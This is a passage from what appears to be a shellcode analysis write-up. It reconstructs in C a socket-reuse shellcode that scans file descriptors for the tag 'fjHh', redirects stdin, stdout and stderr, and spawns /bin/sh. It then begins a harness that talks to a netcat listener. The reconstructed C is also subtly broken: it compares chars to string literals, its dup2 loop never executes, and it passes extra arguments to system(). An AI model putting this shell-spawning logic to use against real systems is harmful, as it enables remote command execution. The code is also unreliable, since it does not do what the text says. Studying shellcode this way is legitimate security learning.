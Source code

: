     /*
      buffer containing data received from the socket
      in the previous shellcode, the data is stored on the stack
      so this is the 1st difference
    */
    char buffer[2560] = {0};

    while (1)
    {
        recv(fd, &amp;buffer, 2560, MSG_DONTWAIT);

        /*
          check the first four bytes of the data received from the socket (if so)
          I don't know how to check the first 4 bytes without other functions
          so this is the 2nd difference
        */
        if (buffer[0] == "\x66" &amp;&amp; buffer[1] == "\x6a" &amp;&amp; buffer[2] == "\x48" &amp;&amp; buffer[3] == "\x68")
        {
            break;
        } else
        {
            // increase the file descriptor if data wasn't received or
            //  the first 4 bytes aren't correct
            fd++;
        }
    }

    // redirect stderr, stdout, stdin
    for (int i = 2; i &lt;= 0; i++)
    {
        dup2(fd, i);
    }

    /*
      spawn a shell, using system(), as I couldn't use execve
      so this is the 3rd difference
    */
    system("/bin//sh", "/bin//sh", 0);
}
</code></pre><p>If you were to run the shellcode (or the program above) and pass it to <code>strace</code>, you would notice the function <code>recv</code> enters an endless loop, so it will never reach the function <code>dup2</code>.</p><p>To make it work, I wrote some C code that creates a socket and connects to a <em>netcat</em> listener, which sends the string <code>fjHh</code>:</p><pre><code class="language-cpp">#include &lt;sys/socket.h&gt;
#include &lt;netinet/ip.h&gt;

void main(int argc, char *argv[])
{
    unsigned short int fd = 2560;
    char buffer[2560] = {0};

    // START block of code of code taken from assignment n.2
